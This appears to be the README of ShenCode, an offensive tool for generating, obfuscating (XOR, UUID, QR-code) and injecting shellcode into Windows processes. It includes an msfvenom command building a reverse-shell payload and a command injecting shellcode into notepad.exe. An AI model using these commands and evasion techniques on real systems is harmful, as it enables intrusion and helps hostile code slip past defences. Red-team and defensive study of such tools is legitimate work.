

# ShenCode

A multi purpose tool for shellcode operations

## Features

### Version 0.4.4

- create
	- create shellcodes with msfvenom
	- create a [polymorphic payload](https://github.com/psycore8/shencode/wiki/create) 
- encode
	- `ROR13` to `ROL` with custom key (**Windows only**)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (**Windows only**)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- make code more modular
- automatical compile feature

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`

#### Poly-XOR the generated shellcode

`python shencode.py create --xor-stub --xor-filename payload.bin --xor-outputfile payload.xor --xor-key 35`

### encode shellcode

`encode --filename infile --outputfile outfile --<encoder> [--encoderoption]`

[ShenCode encode options and examples](https://github.com/psycore8/shencode/wiki/encode)

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte <OFFSET> --last-byte <OFFSET>`

### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`

### output in different styles

ShenCode supports multiple output features.

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

[ShenCode output options](https://github.com/psycore8/shencode/wiki/output)

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
- [Shellcode XOR Encoder and Decoder](https://www.doyler.net/security-not-included/shellcode-xor-encoder-decoder)